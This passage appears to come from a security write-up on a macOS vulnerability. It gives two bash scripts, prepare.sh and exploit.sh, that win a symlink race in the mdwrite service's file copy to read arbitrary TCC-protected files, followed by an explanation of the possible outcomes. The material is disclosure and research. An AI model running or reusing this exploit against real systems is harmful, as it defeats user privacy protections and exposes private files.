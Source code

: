 ```
#!/bin/bash
# Usage: ./prepare.sh
……

cp -r /tmp/mdlabels ~/Library/Mobile\ Documents.tmp/com~apple~system~spotlight/

hdiutil create -size 10m -volname .exploit -ov /tmp/disk.dmg
hdiutil attach /tmp/disk.dmg -mountpoint ~/Library/Metadata/kind.mdlabels/Contents
```

Next, `exploit.sh` operates as follows: 

```
#!/bin/bash
# Usage: ./exploit.sh /path/to/any-tcc-protected-file
SRC="${HOME}/Library/Mobile Documents.tmp/com~apple~system~spotlight/mdlabels/kind.mdlabels/Contents/Info.plist"
DST="${HOME}/Library/Metadata/kind.mdlabels/Contents/Info.plist"

/tmp/racer "$SRC" "$1" &
while true; do
    echo "triggering the copyfile in mdwrite..." # copy the "Info.plist" from $SRC to $DST
    /tmp/trigger
    
    if [ -L "$DST" ]; then
        echo "$DST is a symlink"
    else
        if [ -f "$DST" ]; then # if dst is a regular file, check the file size
            size=$(wc -c < "$DST" 2>/dev/null)
            if [ "$size" -ne 1 ]; then # success if dst's size is not equal to src's size
                echo "success, we got the target at $DST!"
                break
            else
                echo "$DST is the content of src, not the target"
            fi
        else
            echo "$DST does not exist"
        fi
    fi
    
    echo "retry..."
    rm "$DST" 2>/dev/null
    pkill -9 mdwrite # restart mdwrite service and trigger the copy again
    sleep 0.1
done
```

After spawning the `racer` program, it continuously triggers the vulnerable file copy operation until a successful attempt occurs. Each attempt will yield one of four different results:

1. The destination path is still a symbolic link, which is the expected API behavior.
2. The destination file content is identical to the source file content.
3. The destination path doesn’t exist.
4. The destination file content is identical to the target file content, which means that the exploit was successful.
